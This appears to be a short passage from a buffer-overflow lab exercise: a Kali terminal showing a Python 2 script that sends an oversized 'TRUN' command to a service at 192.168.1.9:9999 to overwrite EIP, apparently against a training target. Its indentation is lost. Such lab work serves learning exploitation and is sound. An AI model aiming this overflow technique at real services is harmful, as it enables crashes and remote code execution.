

┌──(lolpotch㉿Lolpotch)-[~]
└─$ cat 2.py
#!/usr/bin/python
import sys, socket
# EBP filled with 41 from "A"
# EIP filled with 42 from "B"
shellcode = "A" * 2003 + "B" * 4
while True:
try: #IP Address Port
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.1.9', 9999))
# TRUN is based on command we found crashed when spiked
s.send(('TRUN /.:/' + shellcode))
s.close()
except:
print "Error connecting to the server"
sys.exit()
┌──(lolpotch㉿Lolpotch)-[~]
└─$ chmod +x 2.py
┌──(lolpotch㉿Lolpotch)-[~]
└─$ python2 2.py
ImmunityDebugger.exe
